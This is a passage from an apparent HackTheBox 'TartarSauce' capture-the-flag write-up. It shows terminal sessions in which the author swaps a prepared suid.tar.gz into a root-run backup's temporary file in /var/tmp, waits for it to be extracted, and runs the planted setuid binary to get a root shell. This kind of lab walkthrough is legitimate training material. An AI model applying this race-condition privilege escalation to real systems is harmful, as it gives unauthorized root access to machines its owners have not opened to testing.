 

Move mine over it:



    onuma@TartarSauce:/var/tmp$ cp suid.tar.gz .8dc600473f3730872b2c52a44da6d0bd4efb2297
    onuma@TartarSauce:/var/tmp$ ls -la
    total 40
    drwxrwxrwt  8 root  root  4096 Oct 21 14:05 .
    drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
    -rw-r--r--  1 onuma onuma 2715 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
    -rw-r--r--  1 onuma onuma 2715 Oct 21  2018 suid.tar.gz
    drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
    drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
    drwx------  3 root  root  4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER



### Get Shell

Wait for 30 seconds and then go into `check`, find the shell, and run
it:



    onuma@TartarSauce:/var/tmp$ cd check/var/www.md
    onuma@TartarSauce:/var/tmp/check/var/www.md$ ls
    suid
    onuma@TartarSauce:/var/tmp/check/var/www.md$ ls -l
    total 16
    -r-sr-sr-x 1 root root 15484 Oct 21 13:58 suid
    onuma@TartarSauce:/var/tmp/check/var/www.md$ ./suid
    ./suid
    id
    uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)



Now I've got a root shell on TartarSauce.


[« HTB: TartarSauce](/htb-tartarsauce.md)






